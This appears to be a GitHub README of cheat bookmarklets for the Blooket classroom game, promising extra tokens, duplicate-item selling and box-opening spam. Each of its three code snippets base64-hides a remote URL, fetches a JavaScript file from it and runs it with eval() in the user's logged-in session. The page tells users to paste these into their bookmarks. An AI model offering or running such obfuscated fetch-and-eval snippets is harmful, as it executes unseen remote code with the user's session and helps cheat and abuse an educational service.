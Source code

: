 # Blooket-hack-after-glixzzy
glixzzy stop making profit off school cheats                                 (made by a student who named jack and hes so cool omg!1 credit to @P1uffy)



# Here are the big juicy hecks collection
these are all useful bookmarklets,paste them into bookmark, make sure javascript: are in the initial.
# add tokens!11! exp also !111
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
# sell dupe blooks!11111!111!!!!!!!!!
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# spam box!11
```js
fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbFNwYW1PcGVuQm94ZXMuanM=')).then((res) => res.text().then((t) => eval(t)))
```
# cool
file:///home/chronos/u-d21651d33cef254e544b8e9fa51b503f2b21502c/MyFiles/Downloads/Screen%20recording%202021-11-21%2012.17.01%20PM.webm
